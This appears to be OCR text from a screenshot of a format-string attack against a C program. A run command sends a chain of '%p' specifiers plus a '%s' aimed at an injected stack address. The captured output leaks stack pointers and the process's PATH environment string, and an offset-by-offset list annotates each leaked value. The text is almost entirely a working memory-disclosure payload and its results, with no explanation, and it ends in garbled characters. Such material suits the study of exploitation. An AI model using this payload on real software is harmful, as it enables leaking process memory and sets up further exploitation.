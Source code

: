 r AAAAAAAA..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%p..%s$(printf "\x67\xee\xff\xff\xff\x7f")

AAAAAAAA..0x7fffffffe140..0x8..0x7fffffffee677325..0x7ffff7dd0d80..0x7ffff7dd0d80..0x1..(nil)..0x1..0x7fffffffd7f0..0x7fffffffd7f0..0x100400328..0x4141414141414141..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x70252e2e70252e2e..0x73252e2e70252e2e..PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bing����

0  AAAAAAAA
1  ..0x7fffffffe140
2  ..0x8
3  ..0x7fffffffee677325
4  ..0x7ffff7dd0d80
5  ..0x7ffff7dd0d80
6  ..0x1
7  ..(nil)
8  ..0x1
9  ..0x7fffffffd7f0
10 ..0x7fffffffd7f0
11 ..0x100400328
12 ..0x4141414141414141
13 ..0x70252e2e70252e2e (1, 2)
14 ..0x70252e2e70252e2e (3, 4)
15 ..0x70252e2e70252e2e (5, 6)
16 ..0x70252e2e70252e2e (7, 8)
17 ..0x70252e2e70252e2e (9, 10)
18 ..0x70252e2e70252e2e (11, 12)
19 ..0x70252e2e70252e2e (13, 14)
20 ..0x70252e2e70252e2e (15, 16)
21 ..0x70252e2e70252e2e (17, 18)
22 ..0x70252e2e70252e2e (19, 20)
23 ..0x70252e2e70252e2e (21, 22)
24 ..0x70252e2e70252e2e (23, 24)
25 ..0x73252e2e70252e2e (25, 26)
26 ..PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bing����